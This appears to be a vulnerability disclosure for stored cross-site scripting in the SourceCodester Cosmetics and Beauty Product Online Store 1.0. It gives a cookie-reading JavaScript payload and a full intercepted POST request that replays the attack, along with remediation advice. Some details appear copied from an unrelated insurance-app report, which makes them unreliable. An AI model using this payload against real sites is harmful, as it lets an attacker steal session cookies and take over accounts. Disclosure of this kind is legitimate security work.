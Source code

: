 Stored Cross-Site Scripting Vulnerability in SourceCodester Cosmetics and Beauty Product Online Store - 1.0
:

    Vendor: Sourcecodester
    Product: Cosmetics and Beauty Product Online Store - 1.0
    Product URL: Cosmetics and Beauty Product Online Store - 1.0

Executive Summary

Stored Cross-Site Scripting (SXSS) vulnerability in Cosmetics and Beauty Product Online Store - 1.0 and earlier allows attacker to inject the Malicious JavaScript Code in the "Product Name" input field. The malicious code can then be executed whenever the vulnerable web page is accessed by any user, staff or even admin and will remain persistent. It will eventually result in account takeover as the session cookies can be accessed by the malicious JavaScript Code.
Issue Details

    Vulnerability Name: Stored XSS in Product Name
    Severity: High
    Affected URL: http://localhost/cbpos/classes/Master.php?f=save_product 
    Affected Parameter: Product Name
    HTTP Method: POST

Issue Description

The web application is vulnerable to Cross-Site Scripting (SXSS) attacks in the "Product Name" input field. An attacker can exploit this vulnerability by inputting the malicious JavaScript code in the HTTP POST request to create the user. In the provided example, the attacker modifies the "Product Name" parameter to insert a malicious JavaScript Code that can also access the authentication cookies.
Proof Of Concept

Configure a web proxy in your browser.

Navigate to the URL in the browser http://localhost/cbpos/classes/Master.php?f=save_product 

Fill in the desired data in the input fields. Intercept the request in the web proxy. Modify the lname parameter as shown below and send the request to the server.

> Content-Disposition: form-data; name="name"
>
> "><img src=xx onerror=alert(document.cookie)>


In the browser just create an product with malicious script and navigate to homepage

https://drive.google.com/file/d/1t29u20nWeS-dk8z-xNo5VJBecWtuM8V-/view?usp=drive_link
Payload:

> Content-Disposition: form-data; name="name"
>
> "><img src=xx onerror=alert(document.cookie)>

Request:

POST /cbpos/classes/Master.php?f=save_product HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------424935362530218054633052935758
Content-Length: 1086
Origin: http://localhost
Connection: close
Referer: http://localhost/cbpos/admin/?page=product/manage_product
Cookie: PHPSESSID=kmfcp9qgvb789441h8l4ues37v; __insuarance__logged=1; __insuarance__key=DEAH5SIN6WSHVCZFXTH5
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------424935362530218054633052935758
Content-Disposition: form-data; name="id"


-----------------------------424935362530218054633052935758
Content-Disposition: form-data; name="brand_id"

5
-----------------------------424935362530218054633052935758
Content-Disposition: form-data; name="category_id"

7
-----------------------------424935362530218054633052935758
Content-Disposition: form-data; name="name"

"><img src=xx onerror=alert(document.cookie)>
-----------------------------424935362530218054633052935758
Content-Disposition: form-data; name="specs"

<p>hiii<br></p>
-----------------------------424935362530218054633052935758
Content-Disposition: form-data; name="files"; filename=""
Content-Type: application/octet-stream


-----------------------------424935362530218054633052935758
Content-Disposition: form-data; name="status"

1
-----------------------------424935362530218054633052935758
Content-Disposition: form-data; name="img[]"; filename=""
Content-Type: application/octet-stream


-----------------------------424935362530218054633052935758--

Impact:

Stored XSS attacks can have serious consequences, such as Account takeover by stealing cookies, stealing sensitive data, modifying the content of the web page, or redirecting users to a malicious sites.
Remediation:

Implement proper input validation and output encoding to prevent malicious code from being injected into the web application. Use server-side validation to ensure that user input is properly sanitized before being stored in a database or displayed on a web page. Use output encoding to ensure that any user input that is displayed on the web page is properly encoded to prevent malicious code from being executed.
References:

https://portswigger.net/web-security/cross-site-scripting/stored

https://owasp.org/www-community/attacks/xss/
Weakness Enumeration:

CWE-79

This report highlights the Stored XSS vulnerability present in the Product name parameter of http://localhost/e-insurance/Script./core/new_account, including the Proof of Concept, its impact, remediation steps and references for further guidance on mitigation strategies.